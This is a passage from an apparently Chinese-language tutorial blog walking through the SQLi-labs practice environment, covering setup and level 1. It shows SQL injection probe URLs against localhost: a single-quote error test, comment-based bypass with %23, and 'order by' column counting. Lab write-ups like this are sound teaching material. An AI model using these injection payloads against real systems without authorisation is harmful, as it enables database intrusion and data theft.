 ```yaml
---
 title: Sqlilabs通关笔记(1-10)
 date: 2020-01-02 15:28:58
 tags:
 categories:
---
```



## 环境搭建

## 用于SQL注入学习环境

1. [源码下载地址](https://github.com/himadriganguly/sqlilabs)
2. 用phpstudy或者web环境直接搭建运行


## 第一关 基于错误的GET单引号字符型注入
![Sqlilabs通关笔记(1-10)-2020-1-2-15-44-55](https://raw.githubusercontent.com/bbkali/picbad/master/Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-10)-2020-1-2-15-44-55)
- **存在注入判断**

    1. 加上单引号报错
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1'
    ```
    2. 加上注释符页面正常
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1' %23
    ```
    * 注释方式
        - \# 号注释
        - %23 注释 
        - --+ 注释
    3. 判断字段数(使用order by)
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1'  order by 3%23 # 正常
    http://localhost/sqlilabs/practice/example1.php?id=1'  order by 4%23 # 页面显示错误

    说明字段数为3
    ```
    
